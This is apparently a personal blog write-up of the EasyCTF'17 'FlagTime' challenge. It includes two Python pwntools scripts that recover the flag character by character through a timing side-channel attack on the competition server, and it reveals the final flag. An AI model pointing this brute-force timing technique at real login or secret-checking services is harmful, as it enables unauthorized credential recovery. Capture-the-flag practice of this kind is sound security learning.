 ```yaml
---
layout: post
title: EasyCTF'17 - FlagTime writeup
date: 2018-02-24
---
```

## Description
`This problem is so easy, it can be solved in a matter of seconds. Connect to c1.easyctf.com:12482.`

## Thought process 

So the moment I read the title and description I knew it was something like a [Time-Based Blind SQL Injection](http://www.sqlinjection.net/time-based/){:target="_blank"}  

I began experimenting with different values to see if I could find a pattern ...

* It seems that when the character is wrong, the time taken for the reply is short
![wrong](https://thumbs.gfycat.com/BigBonyBeardedcollie-size_restricted.gif)

* while a correct character resulted in a slightly longer delay in the reply (2 seconds)
![right](https://thumbs.gfycat.com/UnhappyHorribleBichonfrise-size_restricted.gif)

* To test this theory, I tested the first part of the flag *(which is already known as the standard flag format)*
![easyctf{](https://thumbs.gfycat.com/EasygoingPassionateDungenesscrab-size_restricted.gif)
which took a total of 6 seconds, almost 1 second for each correct character 

#### After that I wrote a script to brute force the flag based on a known characterlist:

``` python
#!/usr/bin/python
from pwn import *

#send and receive response
def send_msg(msg):
	conn = remote("c1.easyctf.com",12482)
        conn.recv() #"enter the flag:"
        conn.sendline(msg)
        data = conn.recvuntil('\n')
        if not data.rstrip() == 'no':
		print(data)
		exit()

#returns the time taken for a particular string
def getTime(s):
	sum = 0
	for t in range(3):
		start = time.time()
		send_msg(s)
		diff = time.time() - start
		sum += diff
	sum = sum / 3
	return sum

#easyctf{e@o%
flag = "easyctf{e@o%Kx3b5"   #the flag is built by adding the "winner" of each round
chars="abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789{}!@#$%^&*_-=+"
while True:
	
	buff = []

	#pick a new character to try
	for c in chars:
		timeDiff = getTime(flag+c)
		buff.append(timeDiff)

	#get the max of all times
	winner = max(buff)
	i = buff.index(winner)

	#add to flag
	flag += chars[i]
	print ">",flag
		
```
Unfortunately this script was not performing as I expected, due to this challenge being hosted in the United States, there is a lot of **fluctuation in RTT** (Round Trip Time) which affects the accuracy of the script, since the script only knows how to pick the character which took the longest time. Not only that, I tried to compensate for the fluctations by taking the average of 3 runs which wasted half a day and provided no benefit at all.

I left the script to run while working on other challenges and when I checked an hour later I got `easyctf{e@o%Kx3b5`, which is basically gibberish :confused:

#### As an example: 
![rip](https://media.giphy.com/media/fQoxpTahV2P21EVvFH/giphy.gif)

I heard others mentioning running their script from a server they rented from Amazon Web Services (located in the US) so I thought I could do the same, but then I remembered I ran out of free Digital Ocean credits and I also didn't want to spend my AWS credits on a challenge like this, so I left the challenge on hold until further notice ...

After a good night's rest, it suddenly came to me that EasyCTF did provide their own **shell server** that players could SSH into ! Why didn't I think of that sooner ? I revised my current script into a faster version and stuck it into the EasyCTF shell server.

I was pleasantly surprised to find that their shell server already had the *pwn* module pre-installed :D
Setting it up on my machine was quite painful but I did learn that `sudo -H pip install --upgrade <package>` solves pretty much everything ~

```python
#!/usr/bin/python
from pwn import *

#send and receive response
def send_msg(msg):
	conn = remote("c1.easyctf.com",12482)
        conn.recv() #"enter the flag:"
        conn.sendline(msg)
        data = conn.recvuntil('\n')
        if not data.rstrip() == 'no':
		print(data)
		exit()

#returns the time taken for a particular string
def getTime(s):
	start = time.time()
	send_msg(s)
	diff = time.time() - start
	return diff

flag = ""  #easyctf{ezx  (not sure if x or _ they seem close)
chars="abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789{}!@$_"

while True:
	
	max = 0
	maxChar = None

	#pick a new character to try
	for c in chars:
		timeDiff = getTime(flag+c)
		print flag+c,"->",timeDiff
		if timeDiff > max:
			maxChar = c
			max = timeDiff

	#add to flag
	
	flag += maxChar
	print "====>",flag
```
It still wasn't as fast as I'd like, as the time delay in correct characters increases for each character, it became increasingly difficult to bruteforce. 

Based on the length of the characterlist I used : 
* Brute-forcing the first character (0.5 seconds for each reply) would need <u>38 seconds</u> for 1 whole round
* Brute-forcing the 10th character (10 seconds for each reply) would need **<u>12 minutes</u>** for 1 whole round :( 

So my strategy was to let the script brute force the flag whilst I did trial and error beside it at the same time
![many](https://i.imgur.com/INGYBPD.jpg)

Once parts of the flag were uncovered, the rest of the *word* would become trivially guessable                                      
eg. `easyctf{ez_t1m` **->** `easyctf{ez_timing` / `easyctf{ez_t1m1ng` or any variation of *"timing"*

In the end the flag was `easyctf{ez_t1m1ng_4ttack!}` :checkered_flag:

## Things I learnt from this challenge
* How to setup and use the pwn library (for connecting to ports/sockets) 
* This type of attack is called timing attack
* The effect of physical distance between networks that can affect results significantly 


Overall I'm pretty proud that out of 1000-over teams I was one of the first 120 to solve this challenge, although its a Miscallaneous challenge I definitely got a lot out of it ! 
